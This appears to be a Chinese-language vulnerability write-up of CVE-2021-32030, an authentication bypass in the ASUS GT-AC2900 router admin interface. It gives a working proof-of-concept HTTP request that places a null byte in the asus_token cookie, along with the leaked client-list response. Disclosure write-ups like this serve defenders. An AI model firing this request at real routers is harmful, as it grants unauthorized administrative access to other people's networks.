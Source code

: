 # 华硕 GT-AC2900 身份验证绕过 CVE-2021-32030

## 漏洞描述

ASUS GT-AC2900管理员应用程序在处理未经身份验证的用户的远程输入时，容易受到身份验证绕过漏洞的攻击，从而导致对管理员界面的未经授权的访问。

参考链接：

- https://github.com/atredispartners/advisories/blob/master/ATREDIS-2020-0010.md

## 漏洞影响

```
ASUS GT-AC2900韧体版本9.0.0.4.386.41994（测试版）
ASUS GT-AC2900韧体版本3.0.0.4.386.41793（最新生产）
```

## 漏洞复现

通过在auth_check添加空字符进行绕过身份验证。

poc：

```
GET /appGet.cgi?hook=get_cfg_clientlist() HTTP/1.1
Host: 192.168.1.107:8443
Content-Length: 0
User-Agent: asusrouter--
Connection: close
Referer: https://192.168.1.107:8443/
Cookie: asus_token=\0Invalid; clickedItem_tab=0

HTTP/1.0 200 OK
Server: httpd/2.0
Content-Type: application/json;charset=UTF-8
Connection: close

{
"get_cfg_clientlist":[{"alias":"24:4B:FE:64:37:10","model_name":"GT-AC2900","ui_model_name":"GT-AC2900","fwver":"3.0.0.4.386_41793-gdb31cdc","newfwver":"","ip":"192.168.50.1","mac":"24:4B:FE:64:37:10","online":"1","ap2g":"24:4B:FE:64:37:10","ap5g":"24:4B:FE:64:37:14","ap5g1":"","apdwb":"","wired_mac":[
...
...
}
```

